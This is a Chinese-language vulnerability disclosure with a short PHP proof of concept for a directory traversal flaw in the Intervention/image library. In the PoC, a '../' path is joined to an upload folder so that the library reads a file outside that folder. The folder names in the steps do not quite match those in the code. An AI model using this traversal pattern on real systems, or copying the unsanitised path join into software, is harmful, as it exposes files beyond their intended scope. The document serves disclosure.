

# PHP图像处理组件：Intervention/image 目录遍历漏洞


Intervention/image是一个PHP图像处理组件，是基于Imagick和GD，可以用于改变图片大小，剪裁，添加水印等等功能，此外还有图片缓存功能，在动态URL获取图片尺寸的应用非常有效。此程序包容易受到目录遍历攻击。

**PoC：**

1.htdocs文件夹中创建一个项目目录

2.使用composer安装软件包。[这里下载](http://image.intervention.io/getting_started/installation)

3.创建以下文件夹结构，将我们的图像存储在您的项目根目录下

```
uploads
-> first-folder
--> image-1.jpg
-> second-folder
--> image-2.jpg
```

4.在您的项目根目录下创建一个test.php文件，然后将此代码复制并粘贴到下面：

```php
<?php

require 'vendor/autoload.php';

$imageFilename = '../2/image-2.jpg';

// import the Intervention Image Manager Class
use Intervention\Image\ImageManagerStatic as Image;

// open an image file
$img = Image::make('uploads/1/'.$imageFilename);

// now you are able to resize the instance
$img->resize(320, 240);

// finally we save the image as a new file
$img->save('uploads/1/newphoto.jpeg');
```

5.在项目根目录中打开终端，然后运行命令 php test.php

6.验证图像现在位于您的uploads/1/newphoto.jpeg文件夹中，该文件夹属于uploads/2/image-2.jpeg




ref：

* https://github.com/Intervention/image/pull/1069
* https://forum.ywhack.com/thread-114978-1-1.html
